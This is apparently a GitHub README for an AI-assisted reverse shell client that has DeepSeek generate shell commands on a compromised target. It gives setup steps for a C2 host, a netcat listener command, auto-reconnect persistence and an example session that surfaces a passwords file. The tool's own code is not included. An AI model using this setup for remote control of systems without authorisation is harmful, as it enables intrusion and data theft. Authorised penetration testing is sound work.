 🔄 Rev-AI: AI-Powered Reverse Shell Client

📌 Overview
Rev-AI is an intelligent reverse shell client that:

Translates natural language to Linux commands using DeepSeek AI
Maintains persistent connections with automatic reconnection
Provides detailed system diagnostics
Works across multiple operating systems

🚀 Features



Feature
Description



🤖 AI Command Generation
Converts English queries to executable commands


🔧 Cross-Platform
Supports Windows, Linux, and macOS targets


🔒 Secure Communication
Encrypted socket communication with timeouts


🔄 Auto-Reconnect
Resilient connection with configurable retry intervals


💻 System Profiling
Detailed OS/hardware information collection


🧠 Context Memory
Maintains conversation history with AI model


⚙️ Installation
# Clone the repository
git clone [https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell.git](https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell.git)
cd rev-ai

# Install dependencies
pip install -r requirements.txt

# Configure environment (create .env file)
echo "RSHELL_HOST=your_server_ip" > .env
echo "RSHELL_PORT=62065" >> .env
echo "DEEPSEEK_API_KEY=your_api_key" >> .env

🛠 Configuration
Environment Variables
# Required
RSHELL_HOST="your_server_ip"  # C2 server IP
DEEPSEEK_API_KEY="sk-..."     # DeepSeek API key

# Optional
RSHELL_PORT=62065             # Connection port
RSHELL_RECONNECT=15           # Reconnect delay (seconds)
RSHELL_TIMEOUT=60             # Socket timeout 
RSHELL_MAX_HISTORY=20         # AI context memory
RSHELL_CONTEXT="context.md"   # AI instructions file

🖥 Usage
1. Start Listener (Server)
nc -lvnp 62065

2. Execute Client (Target)
python rev-ai.py

3. Available Commands
diagnostic            - Show system information
what did i tell you   - View command history
<natural language>    - AI-generated commands

Example Session
> diagnostic
[Windows]
User: admin
Version: Windows-10-10.0.19045
Admin: True

> list all txt files in /documents
TEXT:
[Query] list all txt files in /documents  
[Command] find /documents -name "*.txt" 2>/dev/null
[Output]
/docs/notes.txt
/docs/passwords.txt

⚠️ Security Notice
❗ Legal Use OnlyThis tool is intended for:

Authorized penetration testing
Educational purposes
Legitimate system administration

🔒 Required Precautions:

Obtain explicit written permission before deployment
Use only on systems you own/administrate
Never use for illegal activities

📜 License
MIT License - See LICENSE for full text.
📬 Contact
For security reports or questions:

Email: your@email.com
GitHub Issues: Open Issue


Disclaimer: Authors are not responsible for misuse of this software.
